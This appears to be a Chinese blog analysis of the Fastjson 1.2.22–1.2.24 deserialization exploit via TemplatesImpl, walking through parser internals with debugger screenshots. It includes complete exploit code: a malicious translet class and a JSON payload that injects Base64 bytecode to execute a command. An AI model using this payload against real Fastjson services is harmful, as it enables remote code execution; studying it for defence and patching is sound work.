# Fastjson1.22-1.24反序列化分析之TemplateImpl

## 限制

这个利用链要求还是很高的，需要设置`Feature.SupportNonPublicField`才能成功触发

## 利用过程

首先写一个`Evil.java`，需要继承`AbstractTranslet`后面会简单说到

```java
public class Evil extends AbstractTranslet {
    public Evil() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {
    }
    public static void main(String[] args) throws Exception {
        Evil t = new Evil();
    }
}
```

再写一个Exploit.java，别忘了修改路劲

```java
package fastj;

import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.*;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.commons.codec.binary.Base64;
import org.apache.wicket.util.io.IOUtils;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class Exploit {
    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());
    }

    public static void main(String args[]){
        try {
            ParserConfig config = new ParserConfig();
            final String evilClassPath = System.getProperty("user.dir") + "\\target\\classes\\fastj\\Evil.class";
            String evilCode = readClass(evilClassPath);
            final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
            String payload = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'','_tfactory':{ },\"_outputProperties\":{ }," +
                "\"_version\":\"\"}\n";

            JSON.parseObject(payload, Object.class, config, Feature.SupportNonPublicField);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

## 流程分析

首先在`JSON.parseObject`打上断点，后面跟进这个`DefaultJSONParser`

后面`JSONScanner`是初始化操作没啥好说的，有兴趣自己跟入



当前为`{`并设置了token为12，记住他



接下来看`parser.parseObject`，继续跟入



再往下跟入`DefaultJSONParser`的`parse`方法

由于token为12

接下来扫描到`"`

获取key为`@type`

这里`JSON.DEFAULT_TYPE_KEY`就是`@type`

通过判断后调用scanSymbol()获取到了@type对应的指定类`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`，并调用TypeUtils.loadClass()函数加载该类

看看`TypeUtils.loadClass`这里涉及了之后的绕过黑名单方法

往下看，通过`ClassLoader.loadClass()`加载到目标类后，然后将该类名和类缓存到Map中，最后返回该加载的类

返回后，程序继续回到`DefaultJSONParser.parseObject()`中往下执行，在最后调用`JavaBeanDeserializer.deserialze()`对目标类进行反序列化

## 属性下面有_下划线是怎么处理的

比如`_bytecodes`，跟入`parseField`

这个`smartMatch`



里面对下划线进行了删除

```java
for(i = 0; i < key.length(); ++i) {
    char ch = key.charAt(i);
    if (ch == '_') {
        snakeOrkebab = true;
        key2 = key.replaceAll("_", "");
        break;
    }
```

## 为什么对_bytecodes进行Base64编码

FastJson提取byte[]数组字段值时会进行Base64解码，所以我们构造payload时需要对 `_bytecodes` 进行Base64处理，如下图



## 为什么需要设置_tfactory为{}

在`getTransletInstance()`函数中调用了`defineTransletClasses()`函数，`defineTransletClasses()`函数是用于生成Java类的，在其中会新建一个转换类加载器，其中会调用到`_tfactory.getExternalExtensionsMap()`方法，若`_tfactory`为null则会导致这段代码报错、从而无法生成恶意类，进而无法成功攻击利用

## 关于Tempaltesimpl里面的一些知识

看我另一篇文章
